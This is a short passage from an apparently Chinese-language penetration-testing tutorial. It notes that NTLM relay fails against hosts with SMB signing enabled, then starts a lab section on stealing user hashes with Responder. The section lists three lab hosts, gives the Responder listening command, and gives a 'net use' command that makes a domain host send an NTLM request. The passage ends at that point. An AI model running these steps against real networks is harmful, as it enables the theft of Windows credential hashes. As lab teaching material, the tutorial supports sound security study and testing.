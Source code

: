 **NTLM 中继攻击无法攻击开启 SMB 签名的主机**

### 4.1.2 利用 Responder 窃取用户 hash

实验环境:

- 被控主机: 192.168.247.135 (windows 2016)
- 域内主机: 192.168.247.136 (windows 7)
- 与控主机: 192.168.247.137 (windows 2016)

1. 在被控主机中开启 Responder 监听

```
python Responder.py -l <网卡名称> -v
```

- -v, 显示详细参数信息

![](vx_images/4518519170262.png)

2. 诱导域内主机对被控主机发起 NTLM 请求, 例如 net use 命令:

```
net use \\192.168.247.135\c$
```
